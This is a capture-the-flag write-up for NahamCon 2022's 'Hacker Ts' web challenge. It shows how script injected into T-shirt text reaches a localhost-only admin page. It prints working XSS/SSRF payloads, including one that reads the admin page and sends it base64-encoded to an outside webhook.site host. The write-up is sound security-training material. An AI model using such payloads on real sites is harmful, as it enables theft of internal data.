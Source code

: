## Web Challenge: Hacker Ts

Heavily referenced off [here](https://ghostccamm.com/writeups/nahamcon-2022)

### Description/Source

We are given a website where we can write text which will be written to a T-shirt. There is also an admin endpoint but can only be seen from localhost (SSRF hints)

![hackerts1](./images/hackerts1)
![hackerts2](./images/hackerts2)

### Solver

We can test for various payloads and one that worked was

```javascript
<script>let s = await fetch</script>
```

Note: It was necessary to use single quotes because double quotes would cause the server to crash

![hackerts3](./images/hackerts3)

Trying to use a standard fetch request on the shirt with

```html
<script>
  let s = await fetch("http://challenge.nahamcon.com:30358/admin"); s = await s.text();
</script>
```

seemed to also crash the server

![crash](./images/hackerts4)

The javascript engine seems to be quite outdated, so this means that apis like `fetch` and features like arrow functions are unavailable. There are 2 methods to do this, one is to make the XHR and send it base64 encoded to your own endpoint like so

```html
<script>
  x = new XMLHttpRequest();
  x.onload = function () {
    y = new XMLHttpRequest();
    y.open(
      "GET",
      "https://webhook.site/746d0f7b-5499-4a0b-8aed-22a7fb8d324c/" +
        btoa(x.responseText)
    );
    y.send();
  };
  x.open("GET", "http://localhost:5000/admin");
  x.send();
</script>
```
